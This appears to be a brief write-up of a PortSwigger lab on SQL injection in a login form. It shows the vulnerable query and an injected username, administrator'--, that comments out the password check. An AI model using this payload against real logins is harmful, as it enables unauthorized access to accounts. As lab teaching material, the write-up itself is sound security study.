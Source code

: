 ## Lab Description :
![image](https://github.com/arafatulislamnahid/portswigger_labs/assets/55046962/1ca7809d-f736-496e-a186-69a54e499f2e)
## Solution :
![image](https://github.com/arafatulislamnahid/portswigger_labs/assets/55046962/fadd94b7-ebef-4a7d-875c-4ca3a69bac72)
![image](https://github.com/arafatulislamnahid/portswigger_labs/assets/55046962/f2b8d3da-0a07-4ac5-a0a5-1905bedc421f)

Query made -

```sql
SELECT * FROM users WHERE username = 'administrator' AND password = 'password'
```

To bypass the login, we need to comment out the password part in WHERE clause.

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = 'bluecheese'
```
![image](https://github.com/arafatulislamnahid/portswigger_labs/assets/55046962/80889e38-9ae0-4b82-a7c1-a25864c2c1f7)
